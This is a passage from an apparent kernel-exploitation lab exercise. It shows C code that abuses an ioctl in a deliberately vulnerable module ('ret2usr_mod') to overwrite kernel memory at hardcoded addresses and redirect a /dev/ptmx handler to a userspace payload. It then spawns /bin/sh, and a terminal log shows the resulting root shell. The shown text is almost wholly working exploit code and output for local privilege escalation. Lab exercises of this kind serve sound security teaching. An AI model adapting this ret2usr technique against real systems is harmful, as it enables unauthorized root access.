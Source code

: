 ```c
			if(orgByte == chByte) {
				continue;
			}
			loopCount = chByte - orgByte;
		}

		for(count=0 ; count < loopCount; count++) {
			// TODO Change this to ioctl
			*(uint32_t*)(mem+i) += 1;
			req.address = addr + i;
			ioctl(fd, IOCTL_PARTIAL_WRITE, &req);
		}
	}
}

int main() {
	int fd, ptmx_fd;
	int uid;

	fd = open(DEVICE_PATH, O_RDONLY);
	ptmx_fd = open("/dev/ptmx", O_RDWR);

	if (fd == -1) {
		perror("open");
		return -1;
	}
	_write(fd, 0xffffffff81f14920, 0xffffffff813eb650, (uint64_t)&payload);
	fcntl(ptmx_fd, F_SETFL, FASYNC);

	uid = getuid();
	printf("uid: %d\n", uid);
	if(uid) {
		printf("failure\n");
		exit(1);
	}

	execve("/bin/sh", NULL, NULL);
	return 0;
}
```

**result**
```sh
test@ubuntu:~/exercises/arbitrary_write$ sudo insmod ret2usr_mod.ko
test@ubuntu:~/exercises/arbitrary_write$ ./ex2
uid: 0
# id
uid=0(root) gid=1001(test) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),111(lpadmin),112(sambashare),1001(test)
#
```
